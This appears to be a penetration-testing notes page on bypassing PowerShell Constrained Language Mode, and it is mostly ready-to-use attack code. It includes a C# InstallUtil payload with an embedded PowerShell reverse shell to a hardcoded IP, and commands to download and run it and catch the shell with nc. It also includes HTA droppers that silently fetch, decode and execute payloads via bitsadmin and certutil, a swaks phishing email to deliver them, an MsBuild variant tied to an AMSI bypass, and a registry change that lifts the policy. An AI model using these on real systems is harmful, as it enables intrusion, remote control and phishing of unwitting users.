# CLM Bypass

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Unprivileged] Bypass Using InstallUtil (bypass_clm_rev_shell.exe)</summary>

<pre class="language-csharp" data-line-numbers><code class="lang-csharp">using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello from main");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
<strong>        public override void Uninstall(System.Collections.IDictionary savedState)
</strong>        {
            string rev = @"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.198',53);
                                    $stream = $client.GetStream();
                                    [byte[]]$bytes = 0..65535|%{0};
                                    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
                                    {
	                                    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	                                    try
	                                    {	
		                                    $sendback = (iex $data 2>&#x26;1 | Out-String );
		                                    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
	                                    }
	                                    catch
	                                    {
		                                    $error[0].ToString() + $error[0].InvocationInfo.PositionMessage;
		                                    $sendback2  =  ""ERROR: "" + $error[0].ToString() + ""`n`n"" + ""PS "" + (pwd).Path + '> ';
	                                    }	
	                                    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	                                    $stream.Write($sendbyte,0,$sendbyte.Length);
	                                    $stream.Flush();
                                    };
                                    $client.Close();";

            //String cmd = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.198/runall.ps1') | powershell -noprofile";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(rev);
            ps.Invoke();
            rs.Close();
        }
    }
}

</code></pre>



![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

Select Release & x64 version and build

### Exploitation

```bash
# Find full filepath of installutil: 
dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$
 
# Download CLM bypass reverse shell from Kali:
curl.exe http://192.168.45.198/bypass_clm_rev_shell.exe --output bypass_clm_rev_shell.exe

# Bypass clm with installutil:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass_clm_rev_shell.exe"

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta file from email

<pre><code># Encode bypass_clm_rev_shell with certutil
<strong>certutil -f -encode bypass_clm_rev_shell.exe enc.txt
</strong></code></pre>

* Rev.hta

```javascript
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
//Using InstallUtil
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\windows\\temp\\bypass.exe")

</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

* Send Email to user

```bash
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```



</details>

<details>

<summary>[Unprivileged] Bypass Using MsBuild (FullBypass.csproj)</summary>

In [FullBypass.csproj](https://raw.githubusercontent.com/n000b3r/PrivEsc/d2c98251012732790d19b2e390bb448a7b2bb15c/Windows/clm_bypass/FullBypass.csproj): edit line168 to use [runall.ps1 --> AMSI bypass (1.txt & 2.txt) --> simple\_ps\_revshell.ps1](powershell-shellcode-runner.md#simple-powershell-reverse-shell-with-amsi-bypass-simple_ps_revshell.ps1)

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```
# Download to Victim machine
curl.exe http://192.168.45.198/FullBypass.csproj -o FullBypass.csproj

# Build the FullBypass C# project
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\FullBypass.csproj

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta from email

```
# Encode FullBypass.csproj with certutil
certutil -f -encode FullBypass.csproj enc.txt
```

* Rev.hta

<pre><code>&#x3C;html>
&#x3C;head>
&#x3C;script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
// Using msbuild
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\FullBypass.csproj;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe c:\\windows\\temp\\FullBypass.csproj")
<strong>
</strong><strong>&#x3C;/script>
</strong>&#x3C;/head>
&#x3C;body>
&#x3C;script language="JScript">
self.close();
&#x3C;/script>
&#x3C;/body>
&#x3C;/html>
</code></pre>

* Send email to user

```
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```

</details>

<details>

<summary>[Unprivileged] Custom InstallUtil Application Template</summary>

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace InstallUtil_custom_exe
{
    internal class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        //Put DLLImports here
        
        //End of DLLImports
        
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
         //Put custom code here

         //End of custom code
        }
    }
}

```

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

```bash
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```

</details>



